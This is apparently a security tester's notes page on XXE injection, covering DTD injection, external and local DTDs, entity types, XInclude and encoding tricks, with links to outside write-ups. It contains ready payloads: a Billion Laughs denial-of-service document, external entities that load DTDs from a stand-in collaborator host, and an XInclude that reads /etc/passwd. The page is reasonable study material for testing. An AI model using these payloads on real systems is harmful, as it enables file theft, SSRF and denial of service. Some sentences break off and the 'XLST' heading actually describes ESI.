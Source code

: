 XML External Entity injection occurs when an XML parser processes external entities in an unsafe way. This vulnerability type also includes XInclude abuse.

## DTD injection

> An injection of DTD is a classical way of exploiting XXE. If it's not applicable, move to XInclude section.

An XML document starts with XML declaration with the ==Document Type Declaration (DTD)== after it:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
```

Usually internal DTD is used, which means that data structures are defined inline within `DOCTYPE` tag.

A DTD can be also external, which means that one can specify a link to a dedicated server with entity declarations on it:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://collab/schema.dtd"> %xxe;]>
```

When the XML parser is capable of network interactions, the exploitation way is usually ==out-of-band (OOB)==. If it's not applicable, focus on the ==error-based== methods.

And, finally, DTDs can be local, or, in other words, stored somewhere on the same host. These DTDs are used for error-based exploitation. You either need to bruteforce a valid file, or use some of OS-specific

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

### Entities

DTD contains both ==external and internal custom entities==. 

Internal entities are mostly harmless. They can only be used as a reflection sink for client side attacks or cause DoS: 

```xml
<!-- Billion Laugh Attack -->

<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
Another variant with parameter entities exists - [Parameters Laugh Attack](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#parameters-laugh-attack).

External entites contain `SYSTEM` or `PUBLIC` keyword and can lead to SSRF or RCE.

An entity can be ==general or parametrized==. A general entity is referenced inside the document body with the following notation:
```xml
<!DOCTYPE root [ <!ENTITY test SYSTEM "http://example.com/payload"> ]> 
<root>&test;</root>
```
While a parametrized entity is defined and used only within DTD:
```xml
<!DOCTYPE root [ 
<!ENTITY % ext SYSTEM "http://example.com/payload">
%ext; ]
> 
<root></root>
```
Notice that metacharacters like `&gt;` also represent a general entity.
## XInclude

XInclude is a generic mechanism for merging XML files.

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## XLST injection

Another way of including payload inside an XML document body is using ESI tags. These are commonly used by Apache on a server side.

https://gosecure.ai/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/
## Obfuscation

You can modify the document encoding in its header - `<?xml version="1.0" encoding="utf-8"?>`

https://mohemiv.com/all/evil-xml/
